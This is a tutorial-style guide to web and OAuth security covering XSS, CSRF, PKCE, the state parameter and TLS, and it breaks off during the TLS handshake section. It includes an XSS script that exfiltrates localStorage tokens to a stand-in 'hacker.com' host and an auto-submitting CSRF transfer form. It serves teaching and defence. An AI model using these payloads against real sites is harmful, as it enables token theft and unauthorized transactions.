



# The Definitive OAuth 2.0 & Web Security Architecture Guide
### From XSS & CSRF to PKCE, TLS Handshake, and the Backend-For-Frontend (BFF) Pattern

---

## Table of Contents
1. [Introduction: Why Authentication & Authorization Break](#1-introduction-why-authentication--authorization-break)
2. [Foundations of Web Security: The Two Nemeses (XSS & CSRF)](#2-foundations-of-web-security-the-two-nemeses-xss--csrf)
   - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
   - [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
   - [The Fundamental Distinction: Data Theft vs. Ambient Action](#the-fundamental-distinction-data-theft-vs-ambient-action)
3. [OAuth 2.0 Core Roles and the Traditional Flow (Without PKCE)](#3-oauth-20-core-roles-and-the-traditional-flow-without-pkce)
   - [OAuth 2.0 vs. OpenID Connect (OIDC)](#oauth-20-vs-openid-connect-oidc)
   - [The Five Core Roles](#the-five-core-roles)
   - [Client Classification: Confidential vs. Public Clients](#client-classification-confidential-vs-public-clients)
   - [The Traditional Authorization Code Flow (RFC 6749)](#the-traditional-authorization-code-flow-rfc-6749)
   - [Why It Worked for Traditional Web Apps (Spring MVC, Monoliths)](#why-it-worked-for-traditional-web-apps-spring-mvc-monoliths)
4. [Why the Traditional Flow Broke: The Mobile & SPA Revolution](#4-why-the-traditional-flow-broke-the-mobile--spa-revolution)
   - [The Public Client Dilemma](#the-public-client-dilemma)
   - [The Authorization Code Interception Attack](#the-authorization-code-interception-attack)
5. [PKCE (Proof Key for Code Exchange - RFC 7636)](#5-pkce-proof-key-for-code-exchange---rfc-7636)
   - [The Mathematical Foundation & Primitives](#the-mathematical-foundation--primitives)
   - [Step-by-Step PKCE Workflow](#step-by-step-pkce-workflow)
   - [Why an Attacker Fails to Steal or Use the Code](#why-an-attacker-fails-to-steal-or-use-the-code)
   - [What PKCE Solves vs. What PKCE CANNOT Solve](#what-pkce-solves-vs-what-pkce-cannot-solve)
6. [The `state` Parameter: Defeating Login CSRF](#6-the-state-parameter-defeating-login-csrf)
   - [What is OAuth Login CSRF?](#what-is-oauth-login-csrf)
   - [The Disaster Scenario: OAuth Without `state`](#the-disaster-scenario-oauth-without-state)
   - [How `state` Solves It Step-by-Step](#how-state-solves-it-step-by-step)
   - [Comparison Matrix: `state` vs. `PKCE`](#comparison-matrix-state-vs-pkce)
7. [Front-Channel vs. Back-Channel & The TLS Fortress](#7-front-channel-vs-back-channel--the-tls-fortress)
   - [Defining the Channels](#defining-the-channels)
   - [Why the Back-Channel Cannot Be Broken by Hackers](#why-the-back-channel-cannot-be-broken-by-hackers)
   - [Low-Level Deep Dive: The TLS Handshake Step-by-Step](#low-level-deep-dive-the-tls-handshake-step-by-step)
   - [How MitM Attacks Crash and Fail Against PKI](#how-mitm-attacks-crash-and-fail-against-pki)
   - [Enterprise Defenses: mTLS and Sender-Constrained Tokens](#enterprise-defenses-mtls-and-sender-constrained-tokens)
8. [The Pure SPA Trap: React in the Browser](#8-the-pure-spa-trap-react-in-the-browser)
   - [The Page Reload & Storage Problem](#the-page-reload--storage-problem)
   - [Why `sessionStorage` & `localStorage` Are Lethal with Tokens](#why-sessionstorage--localstorage-are-lethal-with-tokens)
   - [Same-Origin Policy (SOP) vs. XSS Reality](#same-origin-policy-sop-vs-xss-reality)
9. [The Modern Industry Standard: Backend-For-Frontend (BFF) Pattern](#9-the-modern-industry-standard-backend-for-frontend-bff-pattern)
   - [IETF OAuth 2.0 Security Best Current Practice (BCP)](#ietf-oauth-20-security-best-current-practice-bcp)
   - [Architectural Design: React + Spring Boot BFF Gateway](#architectural-design-react--spring-boot-bff-gateway)
   - [Step-by-Step Flow of the BFF Architecture](#step-by-step-flow-of-the-bff-architecture)
   - [Silent Token Refresh Behind the Curtain](#silent-token-refresh-behind-the-curtain)
10. [Cookies, `HttpOnly`, and Browser Enforced Isolation](#10-cookies-httponly-and-browser-enforced-isolation)
    - [What Is `HttpOnly` (RFC 6265)?](#what-is-httponly-rfc-6265)
    - [Why JavaScript / React CANNOT Create or Read `HttpOnly` Cookies](#why-javascript--react-cannot-create-or-read-httponly-cookies)
    - [Low-Level Browser Mechanics: The V8 Engine vs. Network Vault](#low-level-browser-mechanics-the-v8-engine-vs-network-vault)
    - [Eliminating CSRF in Cookie-Based BFF: `SameSite` & Anti-CSRF Tokens](#eliminating-csrf-in-cookie-based-bff-samesite--anti-csrf-tokens)
11. [Master Cheat Sheet & Mental Models](#11-master-cheat-sheet--mental-models)

---

# 1. Introduction: Why Authentication & Authorization Break

Most developers implement login buttons by copying and pasting a code snippet without understanding the underlying trust boundaries. When building web applications, you are connecting three completely distinct environments:
1. **The Client Environment (Browser / Mobile Device):** Untrusted, fully controllable by the end user, vulnerable to reverse engineering, code inspection, and script injections.
2. **The Identity Provider (Authorization Server):** e.g., Google, Keycloak, Auth0. A trusted third party managing identities and digital signatures.
3. **The Backend Server (Resource Server / BFF):** e.g., Spring Boot, Node.js. A trusted server running in a private data center or VPC.

Security bugs occur when developers assume the browser can hold secrets, or when they confuse **who is initiating a request** with **who is authorizing it**. 

This document breaks down every layer of this ecosystem from zero to production architecture.

---

# 2. Foundations of Web Security: The Two Nemeses (XSS & CSRF)

Before understanding OAuth, you must understand the two primary attacks that plague web applications: **XSS** and **CSRF**.

```
+-------------------------------------------------------------------------+
|                              THE WEB BROWSER                            |
|                                                                         |
|  +------------------------------+     +-------------------------------+ |
|  |     JavaScript Context       |     |      Protected Cookie Vault   | |
|  |  (React, DOM, npm packages)  |     |  (HttpOnly, Secure, SameSite) | |
|  +------------------------------+     +-------------------------------+ |
|                 |                                     |                 |
|         VULNERABLE TO XSS!                   IMMUNE TO XSS READS!       |
|    (Attacker runs arbitrary JS)           (JS cannot inspect bytes)     |
|                 |                                     |                 |
|                 v                                     v                 |
|      Can read localStorage,               Automatically attached to     |
|      sessionStorage, and in-memory        HTTP requests by browser      |
|      variables!                           network layer!                |
|                                                       |                 |
|                                              VULNERABLE TO CSRF!        |
|                                            (If not properly guarded)    |
+-------------------------------------------------------------------------+
```

---

### Cross-Site Scripting (XSS)

#### What is it?
XSS occurs when an attacker tricks an application into executing malicious JavaScript code inside the victim's browser window under the origin of the legitimate website.

#### The Three Flavors:
1. **Stored XSS:** Malicious script is saved in the database (e.g., in a forum post or profile comment: `<script>fetch('https://hacker.com?stolen=' + localStorage.getItem('token'))</script>`). Every user who views the page executes the script.
2. **Reflected XSS:** The script is delivered via a URL parameter (e.g., `https://myapp.com/search?q=<script>alert(1)</script>`) and reflected immediately in the HTML output without sanitization.
3. **DOM-based XSS:** Client-side JavaScript takes unsanitized data from the URL hash or user input and writes it directly to the DOM using dangerous APIs like `innerHTML`, `document.write`, or `eval()`.
4. **Third-Party Dependency Poisoning (The modern threat):** Your React code might be 100% clean, but one of your 1,200 nested `npm` packages is compromised by a malicious maintainer. That compromised package runs with full privileges in your browser context.

#### What an attacker can do with XSS:
- Read everything in `localStorage`, `sessionStorage`, and in-memory JavaScript variables.
- Read non-HttpOnly cookies (`document.cookie`).
- Make background HTTP requests on behalf of the victim (stealing personal data or submitting forms).
- Install keystroke loggers (keyloggers) inside input fields to capture credit cards and passwords in real time.

---

### Cross-Site Request Forgery (CSRF)

#### What is it?
CSRF does **not** steal data directly; instead, it forces an authenticated user's browser to execute an unwanted action on a trusted website where the user is currently authenticated.

#### Why does CSRF exist? (Ambient Authority):
Browsers are designed to automatically attach cookies belonging to `bank.com` whenever an HTTP request is made to `bank.com`, **regardless of who initiated the request**.

#### The Concrete Attack Scenario:
1. You log into your bank: `https://mybank.com`.
2. The bank sends a session cookie: `Set-Cookie: SESSION=xyz987; HttpOnly`.
3. In another browser tab, you visit an attacker's website: `https://free-gifts.com`.
4. The attacker's page contains hidden HTML:
   ```html
   <form id="stealForm" action="https://mybank.com/api/transfer" method="POST">
       <input type="hidden" name="recipient" value="hacker_account_666" />
       <input type="hidden" name="amount" value="5000" />
   </form>
   <script>
       document.getElementById('stealForm').submit();
   </script>
   ```
5. When this form submits, the browser sends a POST request to `mybank.com`.
6. The browser looks in its cookie vault, sees `SESSION=xyz987` for `mybank.com`, and **attaches the cookie automatically**.
7. The bank server receives the request, sees a valid session cookie, and transfers $5,000 to the hacker.

---

### The Fundamental Distinction: Data Theft vs. Ambient Action

| Dimension | Cross-Site Scripting (XSS) | Cross-Site Request Forgery (CSRF) |
| :--- | :--- | :--- |
| **Execution Point** | Attacker code executes **inside** your website's origin. | Attacker triggers request from an **external** origin. |
| **Browser Defense** | Same-Origin Policy (SOP) is bypassed because code runs in origin. | Same-Origin Policy allows sending cross-origin POST requests by default! |
| **Attacker Capability** | Can **read** secrets (tokens, DOM, storage) and **write** anything. | Can **only write/trigger actions**; attacker **cannot read** the server response! |
| **Primary Target** | JavaScript environment, `localStorage`, `sessionStorage`. | Ambient session cookies sent automatically by the browser. |
| **Primary Shield** | Input sanitization, Content Security Policy (CSP), **`HttpOnly` cookies** (stops token theft). | Anti-CSRF tokens (`X-XSRF-TOKEN`), `SameSite=Strict/Lax` cookie attribute. |

---

# 3. OAuth 2.0 Core Roles and the Traditional Flow (Without PKCE)

Before OAuth 2.0 was created (RFC 6749, year 2012), third-party integration looked like this:
If you wanted Yelp to find your contacts from Google, Yelp asked: *"Please type your Google email and your Google password into this Yelp text box."*
Yelp then logged into Google as you, stored your plaintext password in their database, and had full, unrestricted access to your entire Google account forever.

OAuth 2.0 was designed to solve this via **Delegated Authorization**: giving an application limited access (Scopes) to user data without ever revealing user credentials.

---

### OAuth 2.0 vs. OpenID Connect (OIDC)

- **OAuth 2.0 is for AUTHORIZATION:**
  - *"Can Application X read my Google contacts?"*
  - The currency: **`access_token`** (opaque string or JWT meant for APIs).
- **OpenID Connect (OIDC) is for AUTHENTICATION:**
  - *"Who is this user sitting in front of the screen?"*
  - OIDC is an identity layer built on top of OAuth 2.0.
  - The currency: **`id_token`** (signed JWT containing user profile info: `sub`, `email`, `name`, `iss`).

---

### The Five Core Roles

1. **Resource Owner:** The human user who owns the account and data (e.g., You).
2. **User-Agent:** The browser or mobile runtime through which the human interacts.
3. **Client:** The software application trying to act on behalf of the user (e.g., your React app or Spring Boot server).
4. **Authorization Server:** The identity provider issuing tokens after authenticating the user (e.g., Google Accounts, Keycloak, Auth0).
5. **Resource Server:** The backend API holding the protected data (e.g., Spring Boot REST API, Google Drive API).

---

### Client Classification: Confidential vs. Public Clients

This classification is the cornerstone of OAuth 2.0 security:

```
               CLIENT CLASSIFICATION
                        |
       +----------------+----------------+
       |                                 |
CONFIDENTIAL CLIENT                PUBLIC CLIENT
(Can keep secrets)             (CANNOT keep secrets)
       |                                 |
Examples:                         Examples:
- Spring Boot Backend             - React / Angular / Vue SPA
- Node.js Express Server          - iOS / Android Mobile Apps
- Django / Rails Monolith         - Desktop Electron Apps
       |                                 |
Runs in private server            Runs on end-user machine.
datacenter. Code and memory       Source code / memory can be
are inaccessible to users.        inspected by browser DevTools
Can safely hold:                  or decompilers (jadx, etc).
  client_secret                   CANNOT hold a client_secret!
```

---

### The Traditional Authorization Code Flow (RFC 6749)

In 2012, OAuth 2.0 introduced the **Authorization Code Flow**, designed specifically for **Confidential Clients**.

#### Why an "Authorization Code" instead of returning the Access Token directly?
If the Authorization Server returned the `access_token` directly in the browser address bar (which was the old, now-forbidden *Implicit Grant*), the token would be exposed in browser history, server access logs, and HTTP Referer headers.

To protect the token, OAuth split the handshake into two channels:
1. **The Front-Channel (Insecure):** The browser receives only a temporary, short-lived, one-time ticket called an **Authorization Code**.
2. **The Back-Channel (Secure):** The server directly connects to the Authorization Server to exchange that ticket for the actual `access_token` using its confidential `client_secret`.

#### Step-by-Step Sequence (Traditional Flow):

```mermaid
sequenceDiagram
    autonumber
    actor User as Resource Owner
    participant Browser as User-Agent
    participant Server as Confidential Client (Spring Boot)
    participant AuthServer as Authorization Server (Google)

    User->>Browser: Click "Login with Google"
    Browser->>Server: GET /oauth2/login
    Server-->>Browser: 302 Redirect to Google Auth URL<br/>(?client_id=123&response_type=code&redirect_uri=https://server.com/callback)
    Browser->>AuthServer: GET /authorize with params
    AuthServer-->>Browser: Display Login & Consent Page
    User->>Browser: Enters credentials & clicks "Allow"
    AuthServer-->>Browser: 302 Redirect to https://server.com/callback?code=AUTH_CODE_XYZ
    Browser->>Server: GET /callback?code=AUTH_CODE_XYZ
    
    Note over Server,AuthServer: BACK-CHANNEL (Direct TLS Connection)
    Server->>AuthServer: POST /oauth2/token<br/>(grant_type=authorization_code, code=AUTH_CODE_XYZ,<br/>client_id=123, client_secret=SUPER_SECRET_KEY)
    AuthServer->>AuthServer: Verify client_id, client_secret, and code
    AuthServer-->>Server: 200 OK with { access_token, refresh_token, id_token }
    
    Server->>Server: Create User Session in server memory
    Server-->>Browser: Set-Cookie: SESSIONID=abc; HttpOnly; Secure
```

---

### Why It Worked for Traditional Web Apps (Spring MVC, Monoliths)

This flow was practically bulletproof for traditional monolithic web applications because:
1. **The `client_secret` was safe:** Stored in an environment variable on a Linux server in a private cloud.
2. **The `access_token` never touched the browser:** It stayed in the server's RAM or database session.
3. **The exchange happened over the Back-Channel:** Directly between Spring Boot and Google, bypassing the user's computer.

---

# 4. Why the Traditional Flow Broke: The Mobile & SPA Revolution

Around 2015, the software architecture landscape underwent a massive paradigm shift:
- Web development moved to **Single Page Applications (SPAs)** using React, Angular, and Vue.
- Mobile development exploded with iOS and Android applications.

In both architectures, the application running on the user's device wanted to talk to APIs directly.

### The Public Client Dilemma

Developers attempted to apply the traditional Authorization Code Flow to React apps and Mobile apps:

```javascript
// Inside a React app (App.jsx) or Android app:
const client_id = "my-client-app";
const client_secret = "secret_password_123"; // <--- FATAL SECURITY FLAW!

// The browser developer tools allow ANY user to see this:
// Press F12 -> Sources -> Search "client_secret"
```

**Rule:** Any secret distributed inside JavaScript code, an Android `.apk`, or an iOS `.ipa` is **NOT a secret**. It can be extracted in seconds using browser DevTools or decompilers like `apktool` / `jadx`.

Therefore, Public Clients **cannot have a `client_secret`**.

---

### The Authorization Code Interception Attack

If a Public Client does not have a `client_secret`, what happens when it exchanges the Authorization Code?

```
POST /oauth2/token
grant_type=authorization_code
&client_id=my-mobile-app
&code=AUTH_CODE_XYZ
// NO client_secret required!
```

This opened a catastrophic vulnerability called the **Authorization Code Interception Attack (RFC 7636)**:

```
[ Victim Mobile Device ]
       |
       | 1. Legitimate App starts OAuth flow with Google
       v
[ Browser / System Webview ]
       |
       | 2. Google redirects back to: myapp://oauth-callback?code=SECRET_CODE_123
       |
       +-----------------------------------+
       |                                   |
       v                                   v
[ Legitimate App ]                 [ MALICIOUS APP ]
Registers scheme:                  Also registered the same custom scheme:
"myapp://"                         "myapp://" in its AndroidManifest.xml!
                                   |
                                   | 3. Malicious App intercepts SECRET_CODE_123!
                                   |
                                   | 4. Malicious App calls Google Token Endpoint:
                                   |    POST /oauth2/token
                                   |    grant_type=authorization_code
                                   |    code=SECRET_CODE_123
                                   |    client_id=my-mobile-app
                                   v
                      [ Google Authorization Server ]
                      Since there is NO client_secret,
                      Google happily gives the Access Token
                      to the HACKER!
```

This could also happen in web browsers via:
- Reading the victim's **Browser History**.
- Leaking via the **HTTP Referer Header** if the callback page loaded external images or scripts.
- Exploiting **Open Redirectors** on the client domain.

**The core problem:** The Authorization Server had no way to verify if the party presenting the `code` at the token endpoint was the **same entity** that initiated the authentication request in Step 1.

---

# 5. PKCE (Proof Key for Code Exchange - RFC 7636)

To fix this flaw without requiring a static secret, engineers created **PKCE** (pronounced *"pixy"*), standardized in **RFC 7636**.

Instead of a static shared secret configured at registration, PKCE dynamically creates a **one-time secret per authorization request**.

---

### The Mathematical Foundation & Primitives

Before initiating the request, the client dynamically creates two keys using cryptographic primitives:

```
                      CRYPTOGRAPHIC ONE-WAY TRANSFORMATION
                      
    +-------------------+                     +---------------------+
    |   code_verifier   |  --[ SHA-256 ]-->   |   code_challenge    |
    | (High-Entropy Raw)|  --[ Base64URL ]->  | (Fingerprint/Digest)|
    +-------------------+                     +---------------------+
              |                                          |
        KEPT SECRET!                                SENT IN PUBLIC!
    Never leaves client RAM                    Travels over URL in
    during step 1.                             Front-Channel.
```

1. **`code_verifier`**:
   - A cryptographically random string generated using high entropy (`crypto.getRandomValues()` in JS or `SecureRandom` in Java).
   - Length: Between 43 and 128 characters.
   - Allowed characters: `[A-Z]`, `[a-z]`, `[0-9]`, `-`, `.`, `_`, `~`.
   - Example: `dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk`

2. **`code_challenge`**:
   - The SHA-256 hash of the `code_verifier`, encoded in Base64URL format:
     $$\text{code\_challenge} = \text{Base64URL}(\text{SHA256}(\text{code\_verifier}))$$
   - Example: `E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM`

3. **`code_challenge_method`**:
   - Set to `S256`. 
   - *(Note: The standard mentions `plain`, where challenge equals verifier, but modern specs strictly forbid `plain` because it offers zero protection).*

#### The One-Way Hash Property (Pre-Image Resistance):
Even if an attacker intercepts the `code_challenge` from the URL, it is mathematically impossible to reverse SHA-256 to calculate the original `code_verifier`.

---

### Step-by-Step PKCE Workflow



---

### Why an Attacker Fails to Steal or Use the Code

Let's revisit the attack with PKCE active:

1. **Step 1:** The legitimate app creates `code_verifier = "super_secret_ram_value"`. It computes `code_challenge = SHA256("super_secret_ram_value")` and sends only the challenge.
2. **Step 2:** The server issues `code = "AUTH_CODE_999"`.
3. **Step 3 (The Interception):** The hacker intercepts `code = "AUTH_CODE_999"` from the custom URL scheme or browser history.
4. **Step 4 (The Hacker's Dead End):** The hacker rushes to Google's token endpoint:
   ```http
   POST /oauth2/token
   code=AUTH_CODE_999
   client_id=my-app
   code_verifier=???
   ```
5. The hacker **does not have** `code_verifier`! It never traveled over the browser redirect; it was stored in the memory of the legitimate application.
6. If the hacker attempts to guess, or generates their own verifier, Google computes `SHA256(hacker_verifier)`, sees that it does not match the original `code_challenge`, and **immediately revokes the authorization code**.

---

### What PKCE Solves vs. What PKCE CANNOT Solve

> [!IMPORTANT]
> **PKCE protects against Authorization Code Interception on the Front-Channel.**
> It proves that the client exchanging the code at the token endpoint is the identical client that initiated the request.

> [!WARNING]
> **PKCE DOES NOT PROTECT AGAINST XSS!**
> If your application has an XSS vulnerability, an attacker does not need to intercept the code. They can either:
> 1. Read the `access_token` directly from JavaScript memory or `sessionStorage`.
> 2. Wait until the token exchange finishes, then invoke `fetch()` to steal the token or make unauthorized API calls.

---

# 6. The `state` Parameter: Defeating Login CSRF

Many engineers confuse `state` with `PKCE`. While PKCE prevents code theft, `state` prevents **Login CSRF**.

---

### What is OAuth Login CSRF?

In standard CSRF, the attacker forces you to perform an action using **your** account.
In **Login CSRF**, the attacker forces you to log into **THE ATTACKER'S** account without your knowledge!

Why would an attacker want you logged into their account?
- **Scenario A (E-Commerce):** You log into an online shopping site. Thinking you are on your account, you enter your shipping address and save your credit card. You just saved your credit card inside the attacker's account! The attacker logs in later and buys goods with your card.
- **Scenario B (Search Engine / Drive):** You search for confidential documents, upload personal files, or review medical history. All those activities are recorded in the attacker's search history.

---

### The Disaster Scenario: OAuth Without `state`

Here is how an attacker executes a Login CSRF attack when an application fails to implement `state`:



---

### How `state` Solves It Step-by-Step

The `state` parameter binds the OAuth flow to the user's current browser session using a cryptographically random token:

1. **Generation:** When the user clicks "Login", the client generates a cryptographically random, unguessable string:
   ```javascript
   const state = "c8f9b1d2e4a7489384756291a";
   ```
2. **Session Storage:** The client saves this value in a secure, `HttpOnly` temporary session cookie or memory tied to this specific browser:
   ```http
   Set-Cookie: OAUTH_STATE=c8f9b1d2e4a7489384756291a; HttpOnly; SameSite=Lax; Secure
   ```
3. **Transmission:** The client appends this value to the authorization request sent to Google:
   ```http
   GET /authorize?client_id=...&state=c8f9b1d2e4a7489384756291a
   ```
4. **Echoing:** Google guarantees that whatever string was passed in `state` will be returned verbatim in the callback:
   ```http
   HTTP/1.1 302 Found
   Location: https://store.com/callback?code=AUTH_CODE_XYZ&state=c8f9b1d2e4a7489384756291a
   ```
5. **Validation:** The client compares the `state` query parameter against the value stored in the user's cookie:
   - **Legitimate User:** The query parameter matches their cookie. Access granted!
   - **The Attacker's Login CSRF Attack:** The victim receives `code=ATTACKER_CODE&state=ATTACKER_STATE`. The victim's browser looks at its own cookie, sees either no cookie or a completely different `state`, detects the mismatch, and **instantly aborts the login**.

---

### Comparison Matrix: `state` vs. `PKCE`

| Property | `state` Parameter | PKCE (`code_verifier` + `code_challenge`) |
| :--- | :--- | :--- |
| **Primary Target Threat** | **Login CSRF Attack** | **Authorization Code Interception Attack** |
| **What It Prevents** | Prevents an attacker from forcing a victim to consume the attacker's authorization code. | Prevents an attacker from stealing a victim's authorization code and redeeming it for tokens. |
| **Cryptographic Mechanism** | Equality match: `state_returned == state_stored`. | One-way cryptographic transformation: `SHA256(code_verifier) == code_challenge`. |
| **Where Secret Stays** | In the browser's session/cookie storage. | In the client runtime's private memory/RAM. |
| **Mandatory in OAuth 2.1?** | **YES** | **YES** |

---

# 7. Front-Channel vs. Back-Channel & The TLS Fortress

Understanding the distinction between communication channels is essential to understanding why OAuth 2.0 is secure.

```
+---------------------------------------------------------------------------------------+
|                                  THE TWO CHANNELS                                     |
|                                                                                       |
|  FRONT-CHANNEL (Public / Untrusted)                                                   |
|  ==================================                                                   |
|  User Browser <---------------- Redirects / Query Params -------------> Auth Server   |
|  - Visible in URL Address Bar                                                         |
|  - Stored in Browser History                                                          |
|  - Logged in Web Server Access Logs                                                   |
|  - Vulnerable to Referer leakage, screen snooping, and extensions                     |
|                                                                                       |
|  BACK-CHANNEL (Private / Highly Secure Fortress)                                       |
|  ===============================================                                      |
|  Client Server <--------------- Direct TLS Tunnel (HTTPS) ------------> Auth Server   |
|  - Encrypted point-to-point via TLS 1.3 / AES-256-GCM                                 |
|  - Authenticated via PKI (X.509 Certificate Authorities)                              |
|  - Bypasses the browser, user device, and local network entirely                      |
|  - Impossible to intercept without breaking modern cryptography                       |
+---------------------------------------------------------------------------------------+
```

---

### Why the Back-Channel Cannot Be Broken by Hackers

Developers often ask: *"What if a hacker intercepts the Back-Channel connection between Spring Boot and Google?"*

The answer is: **The Back-Channel is protected by Transport Layer Security (TLS)**, backed by the global **Public Key Infrastructure (PKI)**. An attacker sitting on the same network (e.g., public Wi-Fi, malicious router, or ISP) cannot decrypt or alter the data.

---

### Low-Level Deep Dive: The TLS Handshake Step-by-Step

When your Spring Boot server calls `https://oauth2.googleapis.com/token`, here is what happens under the hood before a single byte of HTTP data is sent:

```
[ Spring Boot Server ]                                   [ Google Auth Server ]
         |                                                         |
         |----------------- 1. TCP 3-Way Handshake --------------->|
         |                   (SYN, SYN-ACK, ACK)                   |
         |                                                         |
         |----------------- 2. ClientHello ----------------------->|
         |   - Supported TLS versions (e.g., TLS 1.3)             |
         |   - Supported Cipher Suites (e.g., AES_256_GCM_SHA384)  |
         |   - Client Random Bytes (Random_C)                      |
         |   - Server Name Indication (SNI: oauth2.googleapis.com) |
         |   - Client Diffie-Hellman Key Share ($g^a \bmod p$)     |
         |                                                         |
         |<---------------- 3. ServerHello ------------------------|
         |   - Selected TLS Version (TLS 1.3)                      |
         |   - Selected Cipher Suite                               |
         |   - Server Random Bytes (Random_S)                      |
         |   - Server Diffie-Hellman Key Share ($g^b \bmod p$)     |
         |                                                         |
         |<---------------- 4. Encrypted Server Certificate ------|
         |   - X.509 Digital Certificate containing:               |
         |     * Google Public Key ($K_{pub}$)                     |
         |     * Subject Alternative Names (SAN: *.googleapis.com) |
         |     * Digital Signature of trusted CA (e.g., GTS CA)    |
         |                                                         |
         |<---------------- 5. CertificateVerify & Finished -------|
         |   - Cryptographic proof that Server holds Private Key   |
         |                                                         |
         |=== [ SPRING BOOT TRUST VERIFICATION & KEY CALCULATION ] ===|
         |                                                         |
         |----------------- 6. Finished -------------------------->|
         |                                                         |
         |================ SECURE ENCRYPTED TUNNEL ===============|
         |<================ (Application Data: POST /token) ======>|
```

#### Detailed Breakdown of the Steps:

#### Step 1: Trust Chain Verification (PKI)
Spring Boot receives Google's X.509 Certificate. It does not blindly trust it. It validates the **Chain of Trust**:
1. Google's certificate is signed by an Intermediate Certificate Authority (e.g., Google Trust Services).
2. The Intermediate CA is signed by a Root CA (e.g., GlobalSign Root CA).
3. Spring Boot consults its built-in JDK TrustStore (`$JAVA_HOME/lib/security/cacerts`).
4. It checks:
   - Is the Root CA in my trusted local store?
   - Is today's date within the certificate's validity window (`notBefore` to `notAfter`)?
   - Has the certificate been revoked (via OCSP or CRLs)?
   - **Hostname Verification:** Does the domain in the certificate (`*.googleapis.com`) exactly match the hostname Spring Boot is calling?

#### Step 2: Ephemeral Diffie-Hellman Key Exchange (ECDHE)
Both servers exchange public mathematical points ($g^a \bmod p$ and $g^b \bmod p$).
Using the magic of modular arithmetic:
$$\text{Shared Secret} = (g^b)^a \equiv (g^a)^b \pmod p$$
